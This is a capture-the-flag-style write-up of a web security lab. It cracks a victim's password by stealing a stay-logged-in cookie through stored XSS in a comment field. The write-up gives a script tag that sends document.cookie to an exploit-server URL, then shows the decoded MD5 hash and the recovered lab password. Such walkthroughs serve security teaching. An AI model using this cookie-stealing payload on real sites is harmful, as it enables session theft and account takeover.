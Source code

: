 # Offline password cracking
- lab stores the user's password hash in a cookie
- contains an XSS vulnerability in the comment functionality
- Your credentials: wiener:peter
- Victim's username: carlos

# Goal
- obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.
# Solving The Lab
- login in wih wiener and check the cookie
- Notice that the stay-logged-in cookie is Base64 encoded
- we see that it is constructed as follows:
```
username+':'+md5HashOfPassword
```
- the comment functionality is vulnerable to XSS
- Go to the exploit server and make a note of the URL
- post a comment containing
```
<script>document.location='https://exploit-0a5700de03ca393a81fc563c012800ec.exploit-server.net/exploit'+document.cookie</script>
```
- open the access log. There should be a GET request from the victim containing their stay-logged-in cookie
- Decode the cookie in Burp Decoder and will result in
```
carlos:26323c16d5f4dabff3bb136f2460a943
```
- Copy the hash and paste it into a search engine. This will reveal that the password
```
onceuponatime
```
- Log in to the victim's account, go to the "My account" page, and delete their account and we solved the lab
